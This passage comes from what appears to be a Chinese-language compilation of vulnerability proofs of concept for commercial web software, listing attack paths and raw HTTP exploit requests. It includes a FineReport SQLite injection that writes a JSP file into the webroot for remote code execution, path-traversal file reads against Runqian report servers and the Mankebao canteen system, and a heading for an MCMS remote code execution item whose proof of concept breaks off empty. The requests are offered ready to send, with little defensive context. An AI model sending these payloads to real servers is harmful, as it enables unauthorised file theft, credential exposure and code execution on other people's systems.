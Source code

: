 攻击路径：/cwbase/gsp/webservice/bizintegrationwebservice/bizintegrationwebservice.asmx  
  
poc：文章后附有  
  
9.帆软FineReport ReportSever Sqlite注入导致远程代码执行漏洞  
  
攻击路径：/webroot/decision/view/ReportServer  
  
poc：  
<table><tbody><tr><td width="557" valign="top" style="word-break: break-all;"><section style="line-height: normal;"><span style="font-size: 12px;">GET /webroot/decision/view/ReportServer?test=ssssss&amp;n=${a=sql(&#39;FRDemo&#39;,DECODE(&#39;%ef%bb%bfattach%20database%20%27%2E%2E%2Fwebapps%2Fwebroot%2Ftest%2Ejsp%27%20as%20%27test%27%3B&#39;),1,1)} HTTP/1.1  </span></section><section style="line-height: normal;"><span style="font-size: 12px;">Host:   </span></section><section style="line-height: normal;"><span style="font-size: 12px;">User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0  </span></section><section style="line-height: normal;"><span style="font-size: 12px;">Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,\*/\*;q=0.8  </span></section><section style="line-height: normal;"><span style="font-size: 12px;">Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  </span></section><section style="line-height: normal;"><span style="font-size: 12px;">Accept-Encoding: gzip, deflate  </span></section><section style="line-height: normal;"><span style="font-size: 12px;">Upgrade-Insecure-Requests: 1  </span></section></td></tr></tbody></table>  
10.润乾报表 dataSphereServlet 任意文件读取漏洞  
  
攻击路径：/demo/servlet/dataSphereServlet?action=11  
  
poc：  
<table><tbody><tr><td width="557" valign="top" style="word-break: break-all;"><section style="line-height: normal;"><span style="font-size: 12px;">POST /demo/servlet/dataSphereServlet?action=11 HTTP/1.1</span></section><section style="line-height: normal;"><span style="font-size: 12px;">Host: </span></section><section style="line-height: normal;"><span style="font-size: 12px;">User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36</span></section><section style="line-height: normal;"><span style="font-size: 12px;">Content-Type: application/x-www-form-urlencoded</span></section><section style="line-height: normal;"><br/></section><section style="line-height: normal;"><span style="font-size: 12px;">path=../../../../../../../../../../../windows/win.ini&amp;content=&amp;mode=</span></section></td></tr></tbody></table>  
11.满客宝智慧食堂系统 downloadWebFile 任意文件读取漏洞  
  
攻击路径：/base/api/v1/kitchenVideo/downloadWebFile  
  
poc：  
<table><tbody><tr><td width="557" valign="top" style="word-break: break-all;"><section style="line-height: normal;"><span style="font-size: 12px;">GET /base/api/v1/kitchenVideo/downloadWebFile.swagger?fileName=a&amp;ossKey=/jars/mkb-job-admin/application-prod-job-private.yml HTTP/1.1</span></section><section style="line-height: normal;"><span style="font-size: 12px;">Host: </span></section></td></tr></tbody></table>  
12.铭飞MCMS 远程代码执行漏洞  
  
攻击路径：/static/plugins/ueditor/{version}/jsp/editor.do  
  
poc：  